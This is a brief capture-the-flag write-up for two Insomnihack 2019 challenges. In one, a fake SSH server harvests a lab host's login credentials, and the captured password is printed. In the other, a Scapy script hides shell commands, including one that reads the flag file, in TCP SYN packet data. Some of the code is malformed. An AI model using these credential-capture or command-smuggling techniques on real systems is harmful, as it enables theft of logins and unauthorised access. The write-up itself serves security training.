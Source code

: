 KnockKnock
=====================================
It was not about attacking, but listening on the laptop.
There was a connection to port 22 from the server 10.13.37.99
Let's install a FakeSSH serveur :
git clone https://github.com/tylermenezes/FakeSSH

sudo pip install paramiko

cd FakeSSH
cp ./data/config.sample.json ./data/config.json
ssh-keygen -f ./data/rsa -m 'PEM' 
set no password

sudo python3 server.py

wait max 10min

![](https://github.com/k4nfr3/CTF-writeup/blob/master/2019-Insomnihack/fakessh_1.jpg)

ssh -l svc-tenable-linux 10.13.37.99
password = $\mx3i#u0@%6d@8fk^&^x*ntw2m

![](https://github.com/k4nfr3/CTF-writeup/blob/master/2019-Insomnihack/fakessh_2.jpg)

==============

Net1


Hint 2 : RFC741x => RFC7413 = Use TCP SYN Data

ok, Let's try some Python Scapy with TCP-Syn Data
- - - - - - - - - 
from scapy.all import *

def main(command):
    while True:\
        # build the TCPSYN packet with the command as the payload\
        pinger = IP(dst="10.13.37.98")\
        SYN = TCP(sport=6666, dport=3258, flags='S', seq=1000)<br/>
        xsyn = pinger / SYN / command<br/>
        send(xsyn)<br/>
if __name__ == "__main__":\
    main(ls -la)\
 - - - - - - - - - - - -  
Trying to send some commands but nothing back from the server.

Hint : We got the password "SyN" at 1am

Ok, let's send some commands
main(SyN ls -la)
....
final command : main(SyN cat ./secret/me/not/flag.txt)

to find flag 
![](https://github.com/k4nfr3/CTF-writeup/blob/master/2019-Insomnihack/Net1.jpg)




